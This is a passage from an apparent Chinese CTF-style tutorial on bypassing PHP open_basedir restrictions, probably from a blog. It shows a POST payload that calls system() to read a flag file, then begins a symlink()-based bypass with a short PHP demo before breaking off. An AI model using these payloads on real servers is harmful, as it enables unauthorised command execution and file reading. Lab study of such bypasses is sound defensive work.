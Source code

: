 没有过滤 而且通过post方式

```cobol
c=show_source(__FILE__);system('type D:\phpstudy_pro\WWW\flag.php');
```





<img src="https://i-blog.csdnimg.cn/blog_migrate/56a09732a6e67868ddf5c82a81369427.png" alt="" style="max-height:104px; box-sizing:content-box;" />


成功绕过了 open_basedir

这里是适用于 没有对命令进行过滤

但是一般都难以使用 会被disable_functions 禁用

## 0x03 通过symlink 绕过 （软连接）

```undefined
软连接我们在 ciscn的unzip有见识到
 
就是linux的快捷方式
 
我们可以通过软连接；链接其他文件 然后对其进行访问 
```

这里还需要介绍symlink()函数

```scss
symlink(链接的目标，链接的名称)
```

我们来尝试一下

```php
<?php 
symlink("/root/.presage/","/root/桌面/exp");
?>
```

然后我们执行一下

```cobol
php 2.php
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/e8a4c8de497630fbbb65439e37940e1b.png" alt="" style="max-height:174px; box-sizing:content-box;" />


发现真的生成了一个文件夹exp 并且就是指向了我们需要的目录



<img src="https://i-blog.csdnimg.cn/blog_migrate/87f730c158d22f6283c38d11b488e933.png" alt="" style="max-height:230px; box-sizing:content-box;" />


这里我们开始复现师傅的内容

